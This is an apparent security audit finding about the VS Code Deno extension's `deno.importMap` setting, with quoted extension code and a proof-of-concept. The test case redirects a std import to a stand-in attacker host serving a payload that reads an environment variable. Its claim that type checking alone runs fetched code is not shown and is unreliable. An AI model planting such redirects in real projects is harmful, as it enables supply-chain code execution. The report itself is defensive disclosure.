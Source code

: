 ### Vulnerability List

* Vulnerability Name: Malicious Import Map Configuration

* Description:
    1. An attacker creates a malicious `import_map.json` file. This file redirects standard module specifiers (e.g., `https://deno.land/std/`) to attacker-controlled locations. For example, it could redirect `https://deno.land/std/http/server.ts` to `https://malicious.attacker.com/evil_server.ts`.
    2. The attacker social engineers a victim (VS Code user using the Deno extension) into configuring their project to use the attacker's malicious `import_map.json` file. This can be achieved by:
        - Tricking the victim into manually setting the `deno.importMap` setting in VS Code to point to the attacker's malicious file (e.g., a file hosted on a public URL or included in a seemingly benign project repository).
        - Convincing the victim to open a project workspace that already contains a `.vscode/settings.json` file pre-configured with the malicious `deno.importMap` setting, pointing to a file within the project or an external URL.
    3. The victim opens a Deno project in VS Code with the Deno extension enabled.
    4. The Deno extension reads the `deno.importMap` setting, which now points to the attacker's malicious import map.
    5. When the Deno extension (or the underlying Deno Language Server) resolves module imports within the victim's project (e.g., during type checking, linting, formatting, or running tests/tasks), it uses the configured import map.
    6. Due to the malicious import map, module specifiers are resolved to attacker-controlled locations.
    7. The Deno extension fetches and potentially executes code from the attacker's controlled locations as part of the development process within the victim's VS Code environment. This could happen during operations like type checking, code completion, or when running Deno tasks or tests within the IDE.

* Impact:
    - **Code Execution:** An attacker can achieve arbitrary code execution within the victim's development environment. This malicious code can steal sensitive information (credentials, source code, environment variables), modify project files, or further compromise the victim's system.
    - **Project Corruption:** The attacker can inject malicious code into the victim's project, leading to corrupted builds, unexpected behavior, and potential supply chain attacks if the compromised project is shared or deployed.

* Vulnerability Rank: High

* Currently Implemented Mitigations:
    - None evident from the provided project files. The extension reads and utilizes the `deno.importMap` setting as configured by the user without any apparent validation or security checks on the import map file's content or source.

* Missing Mitigations:
    - **Validation of `deno.importMap` source:** The extension should validate the source of the `deno.importMap` file. If it's a remote URL, consider warning the user about the potential risks before using it.
    - **Content Security Policy (CSP) for import maps:** If feasible, explore using CSP mechanisms to restrict the domains from which import maps can be loaded, or restrict the types of URLs allowed in import maps.
    - **User Warnings:** When a user configures or is about to use an `deno.importMap` from an external source, the extension should display a clear warning message highlighting the security risks involved and advising users to only use import maps from trusted sources.
    - **Sandboxing or Isolation:**  Investigate sandboxing or isolating the module resolution and execution processes that utilize the import map, to limit the impact of potentially malicious code loaded through a compromised import map.

* Preconditions:
    1. The victim must have the VS Code Deno extension installed and enabled in their workspace.
    2. The victim must be tricked into configuring the `deno.importMap` setting to point to a malicious import map file, either manually or by opening a workspace with a pre-configured malicious setting.

* Source Code Analysis:
    1. **`client/src/extension.ts`**:
        - In `clientOptions.initializationOptions`, the extension reads the `denoConfiguration` which includes the `deno.importMap` setting from VS Code workspace configuration:
        ```typescript
        initializationOptions: () => {
          const denoConfiguration = vscode.workspace.getConfiguration().get(
            EXTENSION_NS,
          ) as Record<string, unknown>;
          commands.transformDenoConfiguration(extensionContext, denoConfiguration);
          return {
            ...denoConfiguration,
            ...
          } as object;
        },
        ```
        - This `denoConfiguration` object, including `importMap`, is sent to the Deno Language Server during initialization.
    2. **`client/src/debug_config_provider.ts`**:
        - The `DenoDebugConfigurationProvider` in `#getAdditionalRuntimeArgs` reads `settings.importMap` which comes from `clientOptions.initializationOptions`.
        ```typescript
        #getAdditionalRuntimeArgs() {
          const args: string[] = [];
          const settings = this.#extensionContext.clientOptions
            .initializationOptions();
          ...
          if (settings.importMap) {
            args.push("--import-map");
            args.push(settings.importMap.trim());
          }
          ...
          return args;
        }
        ```
        - This shows that the `deno.importMap` setting is directly passed to the Deno CLI when debugging, affecting module resolution during debugging sessions.
    3. **`README.md` and `docs/workspaceFolders.md`**:
        - These documentation files confirm the existence and purpose of the `deno.importMap` setting:
        ```markdown
        - `deno.importMap`: The file path to an import map. This is the equivalent to
          using `--import-map` on the command line.
          [Import maps](https://docs.deno.com/runtime/fundamentals/configuration/#dependencies)
          provide a way to "relocate" modules based on their specifiers. The path can
          either be relative to the workspace, or an absolute path. _string, default
          `null`, examples: `./import_map.json`, `/path/to/import_map.json`,
          `C:\path\to\import_map.json`_
        ```
    4. **Absence of Validation**:
        - By reviewing the code, particularly in `client/src/extension.ts` and `client/src/debug_config_provider.ts`, there is no visible code that validates the source or content of the `deno.importMap` file. The extension appears to trust the user-provided path and uses it directly.

* Security Test Case:
    1. **Attacker Setup:**
        - Create a malicious JavaScript/TypeScript file (e.g., `evil_module.ts`) hosted on a publicly accessible web server (e.g., `https://malicious.attacker.com/evil_module.ts`). This file contains code intended to be executed on the victim's machine, such as displaying an alert or attempting to access local files.
        ```typescript
        // evil_module.ts
        console.error("Malicious code executed!");
        // Example of potentially harmful action (in a real attack, this could be worse)
        if (typeof process !== 'undefined') {
            console.error("Running in Node.js-like environment. Accessing process env:", process.env.USERNAME);
        } else {
            console.error("Not in Node.js environment, some actions might be limited.");
        }
        ```
        - Create a malicious `import_map.json` file (e.g., `malicious_import_map.json`) also hosted on a publicly accessible web server (e.g., `https://malicious.attacker.com/malicious_import_map.json`). This import map redirects a common module specifier to the attacker's malicious file.
        ```json
        {
          "imports": {
            "std/http/server.ts": "https://malicious.attacker.com/evil_module.ts"
          }
        }
        ```
    2. **Victim Setup:**
        - Open VS Code and create a new empty workspace or open an existing Deno project.
        - Enable the Deno extension for the workspace if it's not already enabled.
        - In VS Code settings for the workspace (`.vscode/settings.json` or workspace settings UI), set the `deno.importMap` setting to the URL of the attacker's malicious import map: `"deno.importMap": "https://malicious.attacker.com/malicious_import_map.json"`.
        - Create a simple Deno file (e.g., `test.ts`) in the workspace that imports a module that is redirected by the malicious import map.
        ```typescript
        // test.ts
        import * as server from "std/http/server.ts";

        console.log("This is a test Deno file.");
        ```
    3. **Triggering the Vulnerability:**
        - Open the `test.ts` file in VS Code.
        - The Deno extension will attempt to type check, lint, or provide code completion for `test.ts`. During this process, it will resolve the import `"std/http/server.ts"` using the configured malicious import map.
        - Alternatively, run a Deno task or test within the VS Code integrated terminal or using code lenses.
    4. **Verification:**
        - Observe the VS Code output panel for the Deno extension or the integrated terminal output. If the vulnerability is successfully triggered, you will see the "Malicious code executed!" message and potentially other outputs from `evil_module.ts`, indicating that the attacker's code has been executed within the VS Code environment.
        - In a real attack scenario, the malicious code could perform more harmful actions without being immediately visible in the output.

This test case demonstrates how a malicious import map can lead to code execution within the VS Code Deno extension context.
